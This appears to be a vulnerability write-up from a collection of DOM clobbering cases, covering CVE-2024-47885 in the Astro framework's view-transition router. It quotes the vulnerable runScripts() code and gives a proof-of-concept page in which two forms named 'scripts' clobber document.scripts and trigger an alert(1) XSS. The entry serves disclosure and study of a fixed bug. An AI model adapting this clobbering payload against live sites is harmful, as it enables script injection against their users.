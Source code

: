 ## Astro

### Meta

+ Library: Astro
+ Stars: 45.7K
+ Version: v4.5.9
+ Payload: ```<form name="scripts">alert(1)</form><form name="scripts">alert(1)</form>```
+ Impact: XSS
+ CVE: [CVE-2024-47885](https://github.com/withastro/astro/security/advisories/GHSA-m85w-3h95-hcf9)
+ Status: Fixed
+ Foundby: TheHulk


### Library

https://github.com/withastro/astro


### Vulnerable Code Snippet

```javascript
// https://github.com/withastro/astro/blob/7814a6cad15f06931f963580176d9b38aa7819f2/packages/astro/src/transitions/router.ts#L135-L156
function runScripts() {
	for (const script of Array.from(document.scripts)) {
		if (script.dataset.astroExec === '') continue;
		const type = script.getAttribute('type');
		if (type && type !== 'module' && type !== 'text/javascript') continue;
		const newScript = document.createElement('script');
		newScript.innerHTML = script.innerHTML;
		for (const attr of script.attributes) {
			newScript.setAttribute(attr.name, attr.value);
		}
		newScript.dataset.astroExec = '';
		script.replaceWith(newScript);
	}
}

runScripts();
```

### PoC
```html

<!--Library-->
<script>
function runScripts() {
	for (const script of Array.from(document.scripts)) {
		if (script.dataset.astroExec === '') continue;
		const type = script.getAttribute('type');
		if (type && type !== 'module' && type !== 'text/javascript') continue;
		const newScript = document.createElement('script');
		newScript.innerHTML = script.innerHTML;
		for (const attr of script.attributes) {
			newScript.setAttribute(attr.name, attr.value);
		}
		newScript.dataset.astroExec = '';
		script.replaceWith(newScript);
	}
}

runScripts();
</script>
<!--Library-->

<!--Payload-->
<form name="scripts">alert(1)</form>
<form name="scripts">alert(1)</form>
<!--Payload-->
```